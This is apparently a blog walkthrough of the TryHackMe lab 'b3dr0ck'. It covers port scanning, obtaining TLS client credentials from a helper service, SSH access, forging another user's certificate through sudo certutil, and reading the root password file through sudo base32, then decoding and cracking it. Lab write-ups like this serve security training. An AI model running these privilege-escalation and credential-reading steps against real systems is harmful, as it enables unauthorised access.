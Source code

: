 ```yaml
---
layout: post
title: tryhackme - b3dr0ck
---
```


# b3dr0ck

# recon

I added the machine’s IP to my `/etc/hosts` as `nope.thm` then ran an `nmap` scan to find `ssh` and `http` ports open

```bash
$ sudo nmap bedrock.thm  -v
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9009/tcp open  pichat
```

besides the box had a helpful description

```bash
Barney is setting up the ABC webserver, and trying to use TLS certs to secure connections, but he's having trouble. Here's what we know...

		- He was able to establish nginx on port 80,  redirecting to a custom TLS webserver on port 4040
		- There is a TCP socket listening with a simple service to help retrieve TLS credential files (client key & certificate)
    - There is another TCP (TLS) helper service listening for authorized connections using files obtained from the above service
    Can you find all the Easter eggs?

```

so now I know there are 4 open ports on the box

## http

the website had nothing interesting besides this note

```bash
Welcome to ABC!

Abbadabba Broadcasting Compandy

We're in the process of building a website! Can you believe this technology exists in bedrock?!?

Barney is helping to setup the server, and he said this info was important...

Hey, it's Barney. I only figured out nginx so far, what the h3ll is a database?!?
Bamm Bamm tried to setup a sql database, but I don't see it running.
Looks like it started something else, but I'm not sure how to turn it off...

He said it was from the toilet and OVER 9000!

Need to try and secure connections with certificates...
```

so I went to check port 9009, which gave me a private key (the commands were guessed based on what the text was saying) and a certificate to connect to a service running on a higher port

```bash
$ nc bedrock.thm 9009
__          __  _                            _                   ____   _____ 
 \ \        / / | |                          | |            /\   |  _ \ / ____|
  \ \  /\  / /__| | ___ ___  _ __ ___   ___  | |_ ___      /  \  | |_) | |     
   \ \/  \/ / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \    / /\ \ |  _ <| |     
    \  /\  /  __/ | (_| (_) | | | | | |  __/ | || (_) |  / ____ \| |_) | |____ 
     \/  \/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  /_/    \_\____/ \_____|
                                                                               
                                                                               
What are you looking for? help
Looks like the secure login service is running on port: 54321

Try connecting using:
socat stdio ssl:MACHINE_IP:54321,cert=<CERT_FILE>,key=<KEY_FILE>,verify=0
What are you looking for? key

Sounds like you forgot your private key. Let's find it for you...
-----BEGIN RSA PRIVATE KEY-----
[REDACTED KEY]
-----END RSA PRIVATE KEY-----
What are you looking for? cert
Sounds like you forgot your certificate. Let's find it for you...
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----

What are you looking for?
```

after saving the key and the cert to a file I connected to port 54321 which gave me the `barney`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=cert.pem,key=private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Barney Rubble' is authorized.
b3dr0ck> help
Password hint: d1ad7c0a3805955a35eb260dab4180dd (user = 'Barney Rubble')
b3dr0ck> user
Current user = 'Barney Rubble' (valid peer certificate)
b3dr0ck> ^C
$ ssh barney@bedrock.thm
barney@bedrock.thm's password: 
barney@b3dr0ck:~$ ls -a
.  ..  barney.txt  .bash_history  .bash_logout  .bashrc  .cache  .hushlogin  .profile  .viminfo
barney@b3dr0ck:~$ cat barney.txt 
THM{RADACTED}
```

# privilege escalation

after getting on the machine I found that user have can run `/usr/bin/certutil` with root, the program take the user first and last name as input, and gives some sort of private key and a certificate

```bash
barney@b3dr0ck:~$ sudo -l
Matching Defaults entries for barney on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User barney may run the following commands on b3dr0ck:
    (ALL : ALL) /usr/bin/certutil
barney@b3dr0ck:~$ sudo /usr/bin/certutil

Cert Tool Usage:
----------------

Show current certs:
  certutil ls

Generate new keypair:
  certutil [username] [fullname]

barney@b3dr0ck:~$
```

now I needed the full name of another user, viewing the content of `/etc/password` reveled the other name which is `Fred Flintstone`

```bash
barney@b3dr0ck:~$ sudo /usr/bin/certutil fred 'Fred Flintstone'
Generating credentials for user: fred (Fred Flintstone)
Generated: clientKey for fred: /usr/share/abc/certs/fred.clientKey.pem
Generated: certificate for fred: /usr/share/abc/certs/fred.certificate.pem
-----BEGIN RSA PRIVATE KEY-----
[REDACTED PRIVATE KEY]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[REDACTED CERTIFICATE]
-----END CERTIFICATE-----
```

I used the private key and the cert to connect to the service running at port 54321 again, this time to get `fred`'s ssh password

```bash
$ socat stdio ssl:bedrock.thm:54321,cert=fred_cert.pem,key=fred_private.key,verify=0

 __     __   _     _             _____        _     _             _____        _ 
 \ \   / /  | |   | |           |  __ \      | |   | |           |  __ \      | |
  \ \_/ /_ _| |__ | |__   __ _  | |  | | __ _| |__ | |__   __ _  | |  | | ___ | |
   \   / _` | '_ \| '_ \ / _` | | |  | |/ _` | '_ \| '_ \ / _` | | |  | |/ _ \| |
    | | (_| | |_) | |_) | (_| | | |__| | (_| | |_) | |_) | (_| | | |__| | (_) |_|
    |_|\__,_|_.__/|_.__/ \__,_| |_____/ \__,_|_.__/|_.__/ \__,_| |_____/ \___/(_)
                                                                                 
                                                                                 

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> user
Current user = 'Fred Flintstone' (valid peer certificate)
b3dr0ck> help
Password hint: [REDACTED] (user = 'Fred Flintstone')
b3dr0ck> ^C
$ ssh fred@bedrock.thm 
fred@bedrock.thm's password: 
fred@b3dr0ck:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  fred.txt  .hushlogin  .profile  .selected_editor  .ssh  .viminfo
fred@b3dr0ck:~$ cat fred.txt 
THM{REDACTED}
```

this user could run exfiltrate a hash of the `root`'s password with `/usr/bin/base32` 

```bash
fred@b3dr0ck:~$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt
fred@b3dr0ck:~$ sudo /usr/bin/base32 /root/pass.txt | base32 -d | base32 -d | base64 -d
[REDACTED]
```

I used crackstation to the clear text password then successfully logged in as root (btw the password wasn’t in rockyou.txt which is a first xd)

```bash
fred@b3dr0ck:~$ su -
Password: 
root@b3dr0ck:~# ls -a
.  ..  .bash_history  .bashrc  pass.txt  .profile  root.txt  snap  .ssh  .viminfo
root@b3dr0ck:~# cat root.txt 
THM{REDACTED}
root@b3dr0ck:~#
```

---
